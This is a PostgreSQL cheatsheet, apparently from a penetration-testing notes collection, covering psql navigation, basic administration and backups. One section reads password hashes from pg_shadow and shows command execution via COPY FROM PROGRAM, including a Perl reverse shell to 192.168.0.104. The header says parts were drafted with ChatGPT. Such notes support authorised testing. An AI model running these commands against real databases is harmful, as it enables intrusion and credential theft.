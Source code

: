 # PostgreSQL Cheatsheet

**Warning part of this article were created with ChatGTP 3.5 consulting the [PostgreSQL Documentation](https:--www.postgresql.org/docs/)**

```sql
psql
psql -h <LHOST> -U <USERNAME> -c "<COMMAND>;"
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>

postgres=# \? -- Get Help
postgres=# \list                     -- list all databases
postgres=# \l                        -- Shortform List databases 
postgres=# \c                        -- use database
postgres=# \c <DATABASE>             -- use specific database
postgres=# \s                        -- command history
postgres=# \q                        -- quit
<DATABASE>=# \dt                     -- list tables from current schema
<DATABASE>=# \dt *.*                 -- list tables from all schema
<DATABASE>=# \dt+ -- show size and description
<DATABASE>=# \du                     -- list users roles
<DATABASE>=# \du+                    -- list users roles
<DATABASE>=# SELECT user;            -- get current user
<DATABASE>=# TABLE <TABLE>;          -- select table
<DATABASE>=# SELECT * FROM users;    -- select everything from users table
<DATABASE>=# SHOW rds.extensions;    -- list installed extensions
<DATABASE>=# SELECT usename, passwd from pg_shadow;    -- read credentials
<DATABASE>=# select * from TabLeNameHeRE -- Case insensitive
```

[HackTricks](https:--book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce) states that *"Since [version 9.3](https:--www.postgresql.org/docs/9.3/release-9-3.html) only **super users** and member of the group `**pg_execute_server_program**` can use copy for RCE.

```sql
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

#### More Administrative Commands

Creating and Managing Databases
```sql
-- Create a new database
CREATE DATABASE database_name;
-- Drop a database
DROP DATABASE database_name;
-- Create a new table
CREATE TABLE table_name (
    column_name1 datatype,
    column_name2 datatype,
    ...
);
```

Creating and Managing Databases 
```sql
-- Delete a table
DROP TABLE table_name;
-- Insert data into a table
INSERT INTO table_name (column1, column2, ...) VALUES (value1, value2, ...);
```

Querying Data 
```sql
-- Retrieve all records from a table
SELECT * FROM table_name;
-- Retrieve specific columns and filter results
SELECT column1, column2 FROM table_name WHERE condition;
-- Aggregate functions (e.g., SUM, AVG, COUNT)
SELECT AVG(column) FROM table_name;
-- Joining tables
SELECT column1, column2 FROM table1 JOIN table2 ON table1.column = table2.column;
```

Updating and Deleting
```sql
-- Update records
UPDATE table_name SET column = value WHERE condition;
-- Delete records
DELETE FROM table_name WHERE condition;
```

Indexes
```sql
-- Create an index
CREATE INDEX index_name ON table_name (column_name);
-- Drop an index
DROP INDEX index_name;
```

User Management
```sql
-- Create a new user
CREATE USER username WITH PASSWORD 'password';
-- Grant privileges to a user
GRANT privilege ON table_name TO username;
-- Revoke privileges from a user
REVOKE privilege ON table_name FROM username;
-- Change a user's password
ALTER USER username WITH PASSWORD 'new_password';
```

Backup and Restore
```bash
# Create a backup
pg_dump -h hostname -d database_name -U username -f backup.sql
# Restore from backup
psql -h hostname -d database_name -U username -f backup.sql
```

## References

[PostgreSQL Documentation](https:--www.postgresql.org/docs/)
[postgresqltutorial](https:--www.postgresqltutorial.com/postgresql-administration/postgresql-show-tables/)
[0xsyr0](https:--github.com/0xsyr0/OSCP#postgresql) 
[HackTricks](https:--book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce)